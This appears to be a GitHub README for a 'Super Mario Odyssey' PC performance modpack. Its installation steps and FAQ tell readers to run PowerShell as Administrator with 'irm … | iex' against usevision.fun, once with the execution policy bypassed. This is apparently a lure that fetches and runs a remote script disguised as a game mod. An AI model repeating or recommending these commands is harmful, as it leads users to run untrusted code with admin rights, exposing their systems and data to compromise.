

<div align="center">


<br>


# Super Mario Odyssey PC Performance Modpack
**FPS profiles · Texture pack · Shader mods**
<br>
**FPS profiles · Texture pack · Shader mods**
<br>
Windows · Setup · Deployment



**Super Mario Odyssey · PC modpack · Performance · Windows**

</div>
---

> Performance modpack for Super Mario Odyssey on PC — FPS optimization profiles, texture enhancements, and shader mod presets for emulation.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🚀 **FPS profiles** — Resolution and frame limit preset files.
🖼️ **Texture pack** — HD texture replacement layout.
✨ **Shader mods** — Lighting and post-processing preset bundle.
💾 **Save backup** — Profile folder backup before mod apply.
⚡ **One command setup** — PowerShell handles download and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB |
| **Disk** | 15 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB, 15 GB.
</details>


TAGS
super-mario-odyssey, modpack, performance-mods, pc-gaming, platformer, nintendo, gaming, windows, emulation, software
